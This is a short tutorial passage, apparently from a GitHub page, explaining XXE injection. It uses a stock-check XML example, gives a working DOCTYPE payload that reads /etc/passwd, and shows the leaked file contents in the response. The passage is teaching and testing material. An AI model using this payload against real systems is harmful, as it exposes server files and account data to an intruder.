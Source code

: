 To perform an XXE Injection Attack to retrieve sensitive system files, an attacker needs to modify the submitted XML in two ways:
1. Introduce or edit a `DOCTYPE` element that defines an external entity containing the path of the file.
2. Edit a value in the XML that is returned in the application's HTTP response, to make sure of the defined external entity.

For example, an application checks the stock level of a product by submitting the following XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```
An attacker can exploit the XXE vulnerability by modifying the XML to include the XXE payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE haxxor [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
The XXE payload defines the `&xxe;` in the `DOCTYPE` and uses the entity within the `productId` tag to return the value. This causes the application's response to include the contents of the file:
```txt
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```
## Note
With real-world XXE vulnerabilities, there will often be a large number of data values within the submitted XML, any one of which might be used within the application's response. To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response.
